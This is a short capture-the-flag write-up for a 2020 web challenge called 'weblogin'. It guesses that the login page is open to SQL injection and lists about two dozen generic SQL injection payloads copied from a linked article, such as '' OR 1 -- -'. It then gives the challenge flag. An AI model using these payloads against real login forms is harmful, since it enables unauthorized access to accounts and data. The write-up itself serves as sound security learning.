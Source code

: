 # weblogin

## Challenge

"I made a cool login page. I bet you can't get in!

Site [login.2020.redpwnc.tf](https://login.2020.redpwnc.tf/)"

## Process

Considering this is a simple login page, and this is an early web challenge, this challenge is likely a simple SQL injection challenge. 

[This](https://medium.com/@ismailtasdelen/sql-injection-payload-list-b97656cfd66b) website lists many SQL inject payloads which I have listed below.

```
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
```

![Capture.JPG](Capture.JPG)

The flag is flag{0bl1g4t0ry_5ql1}.